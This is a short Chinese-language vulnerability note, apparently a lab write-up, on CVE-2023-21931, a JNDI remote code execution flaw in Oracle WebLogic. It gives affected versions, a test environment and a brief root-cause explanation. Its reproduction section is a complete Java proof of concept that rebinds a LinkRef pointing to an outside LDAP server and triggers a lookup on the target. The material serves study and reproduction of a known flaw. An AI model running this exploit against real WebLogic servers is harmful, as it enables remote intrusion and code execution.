


- [CVE-2023-21931 远程代码执行(JNDI)](#cve-2023-21931-远程代码执行jndi)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [参考](#参考)

# CVE-2023-21931 远程代码执行(JNDI)
## 影响版本
```
Weblogic 12.2.1.3.0  
Weblogic 12.2.1.4.0  
Weblogic 14.1.1.0.0  
```
## 环境搭建
https://github.com/QAX-A-Team/WeblogicEnvironment  
测试环境:  
Weblogic 12.1.3  
JDK: 8u112
## 原理分析
原理和CVE-2023-21839一致,漏洞触发点就在21839的下面一行代码,原理很简单,记录一下.  
  
可以看到如果绑定对象是`LinkRef`类型的话,就会拿到其LinkName属性然后在下面直接传入了lookup.  
而LinkRef对象的LinkName直接在创建的时候赋值就行了.  
   
## 漏洞复现  
```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.LinkRef;
import javax.naming.NamingException;
import java.io.IOException;
import java.util.Hashtable;

public class app {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url) throws NamingException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String[] args) throws IOException, NamingException {
        LinkRef linkRef = new LinkRef("ldap://192.168.91.1:1389/sm01lh");
        InitialContext c= getInitialContext("t3://192.168.91.1:7001");
        c.rebind("poc",linkRef);
        c.lookup("poc");
    }
    }
```
## 参考  
https://nosec.org/home/detail/5082.html